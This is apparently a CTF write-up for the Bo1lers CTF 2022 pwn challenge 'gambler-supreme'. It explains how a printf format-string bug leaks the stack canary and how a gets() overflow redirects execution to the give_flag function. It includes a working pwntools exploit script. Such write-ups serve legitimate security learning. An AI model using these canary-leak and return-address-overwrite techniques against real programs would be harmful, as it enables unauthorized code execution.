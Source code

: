 ```yaml
---
title: "[Pwn] gambler-supreme [Bo1lers CTF 2022]"
date: 2022-04-28 23:39:00
---
```


# 0x0 Introduction

gambler_supreme 50 PointsSOLVED
The Casino, but with a cool new feature!

You must create a flag.txt in the same folder as the binary for it to run.
nc ctf.b01lers.com 9201

Author: robotearthpizza
Difficulty: Hard

files: [gambler_supreme](gambler_supreme)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerability

it marks as hard but actually very easy.

function `sym.casino` ask for a 4 byte string using `gets`, then it compare with a random string generate by `sym.imp.rand()`. In this challenge, the function for print out flag is not called in binary. So we need to control rip and jump to the function.


```
│           ; var signed int64_t var_34h @ rbp-0x34
│           ; var char *format @ rbp-0x30
│           ; var char *s1 @ rbp-0x20
│           ; var int64_t canary @ rbp-0x8
{
    do {
        // generate random string
        sym.imp.gets(&format);
        sym.imp.printf("Your guess: ");
        sym.imp.printf(&format);
        sym.imp.putchar(10);
        sym.imp.printf("Correct word: %s\n", &s1);
        iVar1 = sym.imp.strcmp(&s1);
        // add or subtract balance depend on the result
    } while (_obj.balance < 1000);
    sym.imp.printf("Drats, the cat snuck in and deleted the code for give_flag...");
    return;
}
```

It have both `gets` to overwrite and `printf` to leak data.

using printf, we can leak canary. 

then if we overwrite rip to `give_flag` using `gets`,  the flag when be print when function return.

finally we uses `gets` again, overwrite `s1`,  make `format` and `s1` same. 

# 0x3 Exploit

```
io = start()

io.sendlineafter(b"(inclusive):",b"1")
io.sendlineafter(b"letters: ",b"%13$p")
lp(io.recvuntil(b"Your guess: "))
canary = int(io.recvuntil(b"\n",drop=True),16)
lp("canary",hex(canary))
io.sendlineafter(b"letters: ",flat({
    0x30 - 0x8:canary,
    0x30 + 0x8: exe.sym["give_flag"]
}))
try:
    while True:
        lp(io.sendlineafter(b"letters: ",b"AAAAAAA\x00AAAAAAA\x00"))
except:
    pass
print(io.recv())

io.interactive()
```

# 0x4 Flag

forgot